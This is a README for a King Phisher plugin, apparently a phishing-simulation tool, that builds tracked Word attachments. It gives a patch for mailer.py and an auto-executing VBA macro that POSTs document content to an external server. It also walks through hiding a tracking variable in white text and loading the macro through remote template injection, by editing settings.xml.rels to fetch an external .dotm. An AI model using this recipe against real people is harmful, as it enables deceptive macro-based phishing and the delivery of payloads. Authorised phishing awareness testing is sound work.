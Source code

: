 # King-Phisher Plugin
This plugin will take an docx attachment and embed King Phisher Jinja variables into it when sending the email to a target.
With this plugin you can check how many people opened the Word attachment and choose the option to activate the macro or their macro execution was already active.

# Prerequisites
note: The client and server must not be running.

you can run below command in install king-phisher directory for example, suppose you installed it at /opt/king-phisher then:

    cd /opt/king-phisher

    pipenv install docxtpl
    
# Local install
1- Locate the docx_generator folder in the following path:

    $HOME/.config/king-phisher/plugins
    
2- File mailer.py is located in the following path:

    /opt/king-phisher/king_phisher/client/mailer.py
    
Put the following code in the mailer.py file   

    def render_DOC_template_var(config, target=None, analyze=False):
      """	
            Take a config and return Template variables
      """
      if target is None:
        target = MessageTargetPlaceholder(uid=config['server_config'].get('server.secret_id'))
        template_environment.set_mode(template_environment.MODE_PREVIEW)
      print(target)
      if analyze:
        template_environment.set_mode(template_environment.MODE_ANALYZE)

      template_vars = {}
      template_vars['campaign'] = dict(
        id=str(config['campaign_id']),
        name=config['campaign_name']
      )
      template_vars['client'] = dict(
        first_name=target.first_name,
        last_name=target.last_name,
        email_address=target.email_address,
        department=target.department,
        company_name=config.get('mailer.company_name'),
        message_id=target.uid
      )

      template_vars['sender'] = dict(
        email=config.get('mailer.source_email'),
        friendly_alias=config.get('mailer.source_email_alias'),
        reply_to=config.get('mailer.reply_to_email')
      )
      template_vars['uid'] = target.uid

      message_type = config.get('mailer.message_type', 'email')
      template_vars['message_type'] = message_type
      if message_type == 'calendar_invite':
        template_vars['calendar_invite'] = dict(
          all_day=config.get('mailer.calendar_invite_all_day'),
          location=config.get('mailer.calendar_invite_location'),
          start=get_invite_start_from_config(config),
          summary=config.get('mailer.calendar_invite_summary')
        )

      template_vars['message'] = dict(
        attachment=config.get('mailer.attachment_file'),
        importance=config.get('mailer.importance'),
        recipient=dict(
          field=config.get('mailer.target_field', 'to'),
          to=(target.email_address if config.get('mailer.target_field') == 'to' else config.get('mailer.recipient_email_to', '')),
          cc=(target.email_address if config.get('mailer.target_field') == 'cc' else config.get('mailer.recipient_email_cc', '')),
          bcc=(target.email_address if config.get('mailer.target_field') == 'bcc' else '')
        ),
        sensitivity=config.get('mailer.sensitivity'),
        subject=config.get('mailer.subject'),
        template=config.get('mailer.html_file'),
        type=message_type
      )

      webserver_url = config.get('mailer.webserver_url', '')
      webserver_url = urllib.parse.urlparse(webserver_url)
      tracking_image = config['server_config']['server.tracking_image']
      template_vars['webserver'] = webserver_url.netloc
      tracking_url = urllib.parse.urlunparse((webserver_url.scheme, webserver_url.netloc, tracking_image, '', 'id=' + target.uid, ''))
      webserver_url = urllib.parse.urlunparse((webserver_url.scheme, webserver_url.netloc, webserver_url.path, '', '', ''))
      template_vars['tracking_dot_image_tag'] = "<img src=\"{0}\" style=\"display:none\" />".format(tracking_url)

      template_vars_url = {}
      template_vars_url['rickroll'] = 'http://www.youtube.com/watch?v=oHg5SJYRHA0'
      template_vars_url['webserver'] = webserver_url + '?id=' + target.uid
      template_vars_url['webserver_raw'] = webserver_url
      template_vars_url['tracking_dot'] = tracking_url
      template_vars['url'] = template_vars_url
      template_vars.update(template_environment.standard_variables)
      return template_vars
      
3- run server and client of king-phisher. In the client, enter the plugin manager dialog from tools -> manage plugins. From the local install section, check the install and enable docx_generator.

note: docx_generator and pdf_generator can not be activated at the same time

4- create a dotm template with macro on it. in the macro send uid (The unique tracking identifier ) to the landing page when open document file. sample code:

    Sub Auto_Open()
        expl
    End Sub

    Sub AutoOpen()
        expl
    End Sub

    Sub Document_Open()
        expl
    End Sub

    Public Function expl() As Variant

        Set mainStory = ActiveDocument.Content

        Dim MyRequest As Object
        Set MyRequest = CreateObject("WinHttp.WinHttpRequest.5.1")

        MyRequest.Open "POST", "https://[web_server_url]/[landing_page_name]?id=" + mainStory, False
        MyRequest.setRequestHeader "Content-type", "application/x-www-form-urlencoded"
        MyRequest.send (mainStory)

    End Function

5- Create the Word file with the template defined in the previous step and just write the following command in it and whiten its color. 

    {{ secret_id }}
  

6- After completing these steps, you place the template file created in step 4 on the server and change its premission so that it can be downloaded by everyone. Then you have to put the address of this file in the created Word file.To do this, zip the Word file and extract it and go to the following path:

    word_rels\settings.xml.rels
    
And replace the dotm file address with its local address in the Target section. see code below

    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
    <Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="http://[web_server_address]/[name].dotm" TargetMode="External"/>     </Relationships>

7- create your campaign and attach your docx file and enjoy it
